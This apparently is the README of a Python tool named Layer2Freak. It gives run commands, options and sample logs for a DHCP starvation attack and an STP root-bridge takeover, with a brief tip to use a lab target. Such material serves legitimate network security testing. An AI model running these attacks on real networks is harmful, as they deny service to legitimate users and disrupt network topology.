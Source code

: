 ### Basic Usage
Start a DHCP starvation attack:
```bash
sudo python3 layer2freak.py -i eth0 -a dhcp
```

Perform an STP root bridge attack:
```bash
sudo python3 layer2freak.py -i eth0 -a stp -t 192.168.1.1
```

### Options
- `-i, --interface`: Network interface (e.g., `eth0`, required).
- `-a, --attack-type`: Attack type (`dhcp` or `stp`, required).
- `-t, --target-ip`: Target IP address (default: `192.168.1.1`).
- `-r, --rate`: Packet send rate (packets/second, default: 1).
- `-q, --quiet`: Run quietly (logs to file only).

### Using Each Feature

#### 1. DHCP Starvation Attack
**What It Does**: Floods the DHCP server with spoofed DHCP Discover packets to exhaust the IP pool, preventing legitimate clients from obtaining IPs.
**How to Use**:
1. Find your network interface (e.g., `ip link`).
2. Identify the DHCP server IP (e.g., `192.168.1.1`).
3. Run:
   ```bash
   sudo python3 layer2freak.py -i eth0 -a dhcp -t 192.168.1.1 -r 5
   ```
4. Monitor traffic with Wireshark or test a new client’s ability to get an IP.
**What Happens**:
- Layer2Freak sends DHCP Discover packets with random MACs:
  ```
  2025-05-15 10:30:00 - Starting Layer2Freak: Attack=dhcp, Target=192.168.1.1, Rate=5/s
  2025-05-15 10:30:01 - Sent packet #1: Ether / IP / UDP / BOOTP / DHCP
  2025-05-15 10:30:01 - Sent packet #2: Ether / IP / UDP / BOOTP / DHCP
  ```
- Results file example (`layer2freak_results_20250515_103000.txt`):
  ```
  [2025-05-15 10:30:01] Ether / IP / UDP / BOOTP / DHCP
  [2025-05-15 10:30:01] Ether / IP / UDP / BOOTP / DHCP
  ```
**Tips**:
- Use a VM or device in your lab as the target.
- Run Wireshark (`sudo wireshark -i eth0`) to observe DHCP requests.
- Test a new client (e.g., `dhclient eth0`) to confirm IP exhaustion.

#### 2. STP Root Bridge Attack
**What It Does**: Sends Configuration BPDUs with a low bridge priority to attempt to become the STP root bridge, potentially disrupting network topology.
**How to Use**:
1. Identify a switch IP (e.g., `192.168.1.1`).
2. Run:
   ```bash
   sudo python3 layer2freak.py -i eth0 -a stp -t 192.168.1.1 -r 2
   ```
3. Monitor switch logs or use Wireshark to observe BPDU changes.
**What Happens**:
- Layer2Freak sends STP BPDUs claiming root status:
  ```
  2025-05-15 10:35:00 - Starting Layer2Freak: Attack=stp, Target=192.168.1.1, Rate=2/s
  2025-05-15 10:35:01 - Sent packet #1: Ether / LLC / STP
  2025-05-15 10:35:01 - Sent packet #2: Ether / LLC / STP
  ```
- Switch logs may show a new root bridge (if unprotected).